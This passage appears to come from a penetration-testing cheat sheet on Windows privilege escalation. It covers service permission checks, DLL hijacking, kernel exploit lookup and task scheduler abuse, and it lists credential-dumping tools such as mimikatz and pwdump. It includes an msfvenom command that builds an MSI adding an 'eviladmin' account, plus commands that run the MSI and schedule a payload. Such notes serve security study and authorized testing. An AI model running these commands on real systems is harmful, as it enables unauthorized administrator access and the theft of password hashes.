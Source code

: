             subinacl.msi (https://www.microsoft.com/en-us/download/details.aspx?id=23510):
            subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
            ```
        * AlwaysInstallElevated registry key
            ```
            check:
                reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
                reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

            if enabled create msi file:
                msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=password -o add_user.msi

            upload msi and run:
                msiexec /quiet /qn /i malicious.msi 
            ```

    * DLL things
        * dll-injector (https://securityxploded.com/remote-dll-injector.php)
        * hijacking
            + check for dll dependencies (http://www.dependencywalker.com/ / listdlls)
            ```
            DLL search dirs in order:
                The directory from which the application is loaded
                C:\Windows\System32
                C:\Windows\System
                C:\Windows
                The current working directory
                Directories in the system PATH environment variable
                Directories in the user PATH environment variable
            ```
    * Kernel exploit
        ```
        wmic qfe get Caption,Description,HotFixID,InstalledOn
        then check with f.e. https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
        ```

    * Task Scheduler
        ```
        Windows 2000, XP, or 2003 only
        local administrator -> SYSTEM

        check if running:
            net start "Task Scheduler"
        add to ts: at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
        ```

    * GUI
        * check for gui tols running as SYSTEM, find "open file" dialog, open cmd.exe (https://www.youtube.com/watch?v=kMG8IsCohHA : 11:00)

    * named pipe (http://seclists.org/vulnwatch/2003/q3/12)
    * Shatter attacks
    * tools
        ```
        wpc (https://github.com/pentestmonkey/windows-privesc-check)
        pysecdump (https://github.com/pentestmonkey/pysecdump)
        lsadump / mimikatz (https://github.com/gentilkiwi/mimikatz)
        Ntrights.exe
        ```
    * Pwdump and fgdump (extract hashes from windows SAM memory injecting DLL to LSASS)
        * SAM - Security Account Manager, SYSKEY (from Windows NT 4.0 PS3) partially encrypts it
        * Storing passwords
            * LAN Manager - DES encrypted (Windows NT <= Windows 2003 only)
            * NT LAN Manager - MD4 hashing
        * LSASS - Local Security Authority Subsystem
    * ophcrack - cracker for hashes from fgdump